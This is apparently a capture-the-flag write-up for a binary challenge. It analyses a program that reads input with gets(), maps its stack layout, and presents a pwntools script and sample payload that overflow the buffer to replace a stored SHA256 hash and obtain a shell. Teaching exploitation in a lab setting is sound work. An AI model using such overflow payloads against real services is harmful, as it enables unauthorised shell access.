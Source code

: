 ## Solution

To analyse the binary, we use [Cutter](https://github.com/rizinorg/cutter).

This challenge is similar to "Purrmission Denied". So its good to go through the solution of "Purrmission Denied" before reading this.

## Analysis

![Disassembly View](images/1.png)  
![Decompiler View](images/2.png)

By inspecting both the disassembled and decompiled views, we observe the following:

- The program uses the unsafe `gets()` function to read user input, making it vulnerable to a buffer overflow.
- User input is stored in variable s
- There is a hex data stored in variable s2
- The SHA256 hash of user input is calculated and converted into base 16 format.
- This is then compared with a hardcoded hash value (in variable s2)
- If both are equal, we get the shell. Else `You are lying. No access for you.` is printed.

The hardcoded hash value is
```
78448ff2086a0d4ae279ba13b156cb8409f889288b6dfee347a0223656fc8abf
```

This is no point in bruteforcing this as it could take a long time..(maybe years :lol:)


![Control Flow](images/3.png)


Running `checksec` on the binary shows no stack canaries are used.

This confirms that a **stack buffer overflow** is possible.


The disassembler reveals the stack layout:

```
; var char *s @ stack - 0x138
; var const char *s2 @ stack - 0xc8
; var int64_t var_c0h @ stack - 0xc0
; var int64_t var_b8h @ stack - 0xb8
; var int64_t var_b0h @ stack - 0xb0
; var int64_t var_a8h @ stack - 0xa8
; var int64_t var_a0h @ stack - 0xa0
; var int64_t var_98h @ stack - 0x98
; var int64_t var_90h @ stack - 0x90
; var int64_t var_88h @ stack - 0x88
; var const char *s1 @ stack - 0x78
; var int64_t var_28h @ stack - 0x28
```


This means:
- The buffer `s` starts at `rbp - 0x138`
- The hardcoded hash starts at `rbp - 0xc8`

Since we don't know the original value used to generate the hardcoded hash, we can't simply replicate it. However, due to the buffer overflow vulnerability, we can overwrite the hash used in the comparison to a hash of our own input, which we control.

Plan:
- The `SHA256()` function in C uses the length provided by `strlen()` to determine how many bytes of input to hash.
- The `strlen()` function returns the number of bytes up to the first null byte (`\x00`). It does not include the null byte itself.
- Therefore, we can provide an input like "hello" followed by a null byte (`\x00`). This ensures `strlen()` only reads "hello" for hashing. After that, we can add padding to reach the target variable `s2` buffer and finally overwrite the stored hash with the hash of "hello"

To calculate the exact padding required to overflow up to the stored hash, we can use the formula:
```c
padding = offset_of_s - offset_of_s2 - strlen("hello") - 1
```
We use -1 at the end to represent the length of null byte.


### Exploit Code

We can use Pwn Tools to write the exploit

```python
from pwn import *
from hashlib import sha256

# Connect to the vulnerable service
p = remote("CHALLENGE_IP", 1338)

user_input = b"hello"
user_input_hash = sha256(user_input).hexdigest()

# padding = offset_of_s - offset_of_s2 - strlen("hello") - 1
padding = b"A" * (0x138-0xc8-len(user_input)-1)

payload = user_input + b"\x00" + padding + user_input_hash.encode()

# Send the crafted input
p.sendline(payload)
# Interact with the shell
p.interactive()
```

Example for a payload
```
hello\x00AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA2cf24dba5fb0a30e26e83b2ac5b9e29e1b161e5c1fa7425e73043362938b9824
```

Running the exploit results in a shell:

![](images/4.png)

You can now grab the flag or run further commands.